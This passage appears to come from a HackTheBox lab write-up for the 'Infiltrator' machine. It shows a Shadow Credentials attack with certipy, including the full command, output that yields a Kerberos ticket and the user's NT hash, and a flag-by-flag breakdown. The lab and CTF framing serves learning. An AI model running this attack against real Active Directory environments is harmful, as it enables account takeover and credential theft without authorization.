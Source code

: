 To maintain a certain level of OPSEC, we decided to perform a `Shadow Credentials` attack, which we add a `Key Credential` to the user `e.rodriguez`, which we can use to authenticate as the user without needing to know its password, this is done by different tools, the most straightforward one is `certipy`. 

```bash
certipy shadow -k -u d.anderson@infiltrator.htb -p '<REDACTED>' -target $FQDN auto -account e.rodriguez

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] KRB5CCNAME environment variable not set
[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[!] DNS resolution failed: The DNS query name does not exist: dc01.infiltrator.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: INFILTRATOR.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'E.rodriguez'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'f572ad54-5734-1bb8-eccc-5cb49830ccee'
[*] Adding Key Credential with device ID 'f572ad54-5734-1bb8-eccc-5cb49830ccee' to the Key Credentials for 'E.rodriguez'
[*] Successfully added Key Credential with device ID 'f572ad54-5734-1bb8-eccc-5cb49830ccee' to the Key Credentials for 'E.rodriguez'
[*] Authenticating as 'E.rodriguez' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'e.rodriguez@infiltrator.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'e.rodriguez.ccache'
[*] Wrote credential cache to 'e.rodriguez.ccache'
[*] Trying to retrieve NT hash for 'e.rodriguez'
[*] Restoring the old Key Credentials for 'E.rodriguez'
[*] Successfully restored the old Key Credentials for 'E.rodriguez'
[*] NT hash for 'E.rodriguez': <REDACTED>
```
> Command Breakdown:
- `certipy shadow`: This command is used to create a shadow credential for the user.
- `-k`: This flag indicates that we want to use Kerberos authentication.
- `-u`: This flag specifies the user we are authenticating as, in this case, `d.anderson`
- `-target`: This flag specifies the target domain controller, in this case, `dc01.infiltrator.htb`.
- `-account`: This flag specifies the account we want to create the shadow credential for, in this case, `e.rodriguez`.
- `auto`: This flag indicates that we want to automatically generate the key pair, add the public key as a key credential, use the new key to authenticate (requesting a `TGT` and `NTLM` hash) and then removes the added key credential to clean up.
{: .prompt-info}
